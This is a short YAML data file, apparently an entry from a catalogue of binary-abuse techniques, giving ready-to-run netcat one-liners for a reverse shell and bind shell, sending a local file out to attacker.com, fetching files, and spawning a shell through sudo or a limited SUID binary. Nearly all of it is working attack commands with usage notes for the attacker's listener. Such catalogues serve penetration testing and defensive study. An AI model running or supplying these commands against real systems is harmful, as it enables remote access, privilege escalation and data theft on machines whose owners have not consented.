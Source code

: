 functions:
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This only works with netcat traditional.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
  file-upload:
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  file-download:
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        LPORT=12345
        LFILE=file_to_save
        nc -l -p $LPORT > "$LFILE"
  sudo:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        sudo nc -e /bin/sh $RHOST $RPORT
  limited-suid:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell. This only works with netcat traditional.
      code: |
        RHOST=attacker.com
        RPORT=12345
        ./nc -e /bin/sh $RHOST $RPORT
---

